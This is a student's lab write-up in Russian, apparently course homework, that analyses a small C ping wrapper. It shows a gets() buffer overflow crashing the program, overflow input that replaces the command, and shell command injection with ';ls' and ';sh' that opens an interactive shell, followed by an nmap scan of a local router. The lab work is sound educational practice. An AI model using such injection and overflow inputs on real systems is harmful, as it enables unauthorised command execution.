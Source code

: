 # Домашнее задание к занятию «Язык С и программные уязвимости»

## Задание 1

1. Какое предупреждение (`Warning`) было выведено при компиляции? По желанию: проведите доп.исследование на предмет сути предупреждения (с чем оно связано, какие риски от использования одной из функций в программе и что это за функция).

   ```bash
   ┌──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ cc main.c -o main
   main.c: In function ‘main’:
   main.c:13:5: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
      13 |     gets(host);
         |     ^~~~
         |     fgets
   /usr/bin/ld: /tmp/ccLVMNRZ.o: in function `main':
   main.c:(.text+0x54): warning: the `gets' function is dangerous and should not be used.
   
   ```

   Компилятор предупреждает, что использование функции gets() небезопасно. Данная функция опасна тем, что не знает насколько велик буфер. Поэтому может читать строку бесконечно. Эта функция официально была исключена из языка C в пользу fgets().

2. Ввод, приводящий к падению приложения

   ```bash
   ──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ ./main             
   please enter host for ping
   34759832748957298347592734895723984572938745928374592873495872394857293847529834759283745928374592873495827394857293847529837459283745928374592837459283475923847529834752938475298374592837459283745923874592348752938745928374592837459283745928743982749582734958
   command: 8347592734895723984572938745928374592873495872394857293847529834759283745928374592873495827394857293847529837459283745928374592837459283475923847529834752938475298374592837459283745923874592348752938745928374592837459283745928743982749582734958
   host: 34759832748957298347592734895723984572938745928374592873495872394857293847529834759283745928374592873495827394857293847529837459283745928374592837459283475923847529834752938475298374592837459283745923874592348752938745928374592837459283745928743982749582734958
   zsh: segmentation fault  ./main
   ```
   
   
   
3. Ввод, приводящий к выполнению другой команды (не `ping`). Выполнилась команда 1.

   ```bash
   ┌──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ ./main
   please enter host for ping
   192.168.0.1.1.1.nmap  
   command: nmap
   host: 192.168.0.1.1.1.nmap
   full command: nmap192.168.0.1.1.1.nmap
   sh: 1: nmap192.168.0.1.1.1.nmap: not found
   ```
   
   

## Задание 2

Проведите повторный анализ и посмотрите:

1. Можно ли реализовать переполнение?

   ```bash
   ┌──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ ./main                      
   please enter host for ping
   34759832748957298347592734895723984572938745928374592873495872394857293847529834759283745928374592873495827394857293847529837459283745928374592837459283475923847529834752938475298374592837459283745923874592348752938745928374592837459283745928743982749582734958
   command: ping 
   host: 347598327489572
   full command: ping 347598327489572
   ping: 347598327489572: Name or service not known
   ```

   Реализовать переполнение теперь не получается, т.к. теперь адрес обрезается до 15 символов.

2. Можно ли выполнить произвольную команду (если да, то как)?

   Предыдущим способом не получилось:

   ```bash
   ┌──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ ./main
   please enter host for ping
   192.168.0.1.1.1.nmap
   command: ping 
   host: 192.168.0.1.1.1
   full command: ping 192.168.0.1.1.1
   ping: 192.168.0.1.1.1: Name or service not known
   ```

   Но можно через использование точки с запятой:

   ```bash
   ┌──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ ./main
   please enter host for ping
   ;ls
   command: ping 
   host: ;ls
   
   full command: ping ;ls
   
   ping: usage error: Destination address required
   main  main.c
   ```

   

3. Если ответ на п.2 - да, то можно ли получить shell (т.е. запустить `sh` и `bash` и продолжить работу с интерпретатором команд в интерактивном режиме)?

   Да, можно:

   ```bash
   ──(parallels㉿kali-linux-2022-2)-[~/Netology/3-10]
   └─$ ./main
   please enter host for ping
   ;sh
   command: ping 
   host: ;sh
   
   full command: ping ;sh
   
   ping: usage error: Destination address required
   $ nmap 192.168.0.1
   Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-26 23:00 MSK
   Nmap scan report for csp1.zte.com.cn (192.168.0.1)
   Host is up (0.017s latency).
   Not shown: 993 closed tcp ports (conn-refused)
   PORT      STATE    SERVICE
   23/tcp    filtered telnet
   53/tcp    open     domain
   80/tcp    open     http
   139/tcp   open     netbios-ssn
   443/tcp   open     https
   445/tcp   open     microsoft-ds
   52869/tcp open     unknown
   
   Nmap done: 1 IP address (1 host up) scanned in 1.34 seconds
   ```

   
